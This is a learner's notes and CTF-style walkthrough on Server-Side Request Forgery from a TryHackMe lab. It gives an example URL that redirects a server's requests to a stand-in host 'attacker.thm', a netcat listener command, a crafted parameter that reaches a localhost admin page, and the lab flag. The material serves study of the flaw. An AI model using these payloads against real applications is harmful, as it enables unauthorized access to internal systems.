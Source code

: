 # Server-Side Request Forgery 

## Introduction 
Server-Side Request Forgery (SSRF) is a security vulnerability where attackers manipulate a web application into sending requests to different destinations using the application's own capabilities. 

## Key Points 
• SSRF vulnerabilities often emerge when web applications interact with third-party services. 

• For example, a web application might send SMS notifications using an external API, requiring an API key for authentication. 

• The vulnerability arises if the application allows users to manipulate the server parameter directing requests to the SMS provider. 

• An attacker could change the server value to point to their own machine, prompting the application to send requests to the attacker instead of the intended provider, allowing the attacker to control message sending at the expense of the original user. 

• The attacker could execute a simple request, like: 
`https://www. mysite.com/sms? server=attacker. thm&amp;msg=ABC` 

• This would redirect the web application to send a request to: 
`https://attacker. thm/api/send? msg=ABC` 

• Using tools like Netcat, the attacker can capture the contents of the request. 

• SSRF can allow attackers to do more than just send requests, including: 

• Enumerating internal networks and identifying IP addresses and ports. 

• Exploiting trust relationships between servers for restricted access. 

• Interacting with non-HTTP services, potentially leading to remote code execution (RCE). 

## Conclusion 
To better understand and exploit SSRF vulnerabilities, visit http://MACHINE_IP:8087/ and locate the admin area as a targeted objective. Follow the specific instructions provided to access restricted areas of the website.

# Try Hack me Challenge

So this challenge is fun. You have to use burp suite to do SSRF. We stop the request while downloading the cv. This way we can change the server to our machine ip.
In a terminal we use: nc -lvp 8030, and in burpsuite we change the server address to: MACHINE_IP:8030 and forward the request. This way we can get the flag. 

Now for the last challenge, i couldnt figure out how to use burp to get it.. now what i did was get the url for the server where we download the pdf from. Then i changed server to localhost:8087/admin%23%&id=75482342 . the %23% represents the hash symbol in URLs. Basically this is obfuscation.
![alt text](image-5.png)
This allows us to have access to the admin where we find the flag:  thm{c4n_i_haz_flagz_plz?}

![alt text](image-4.png)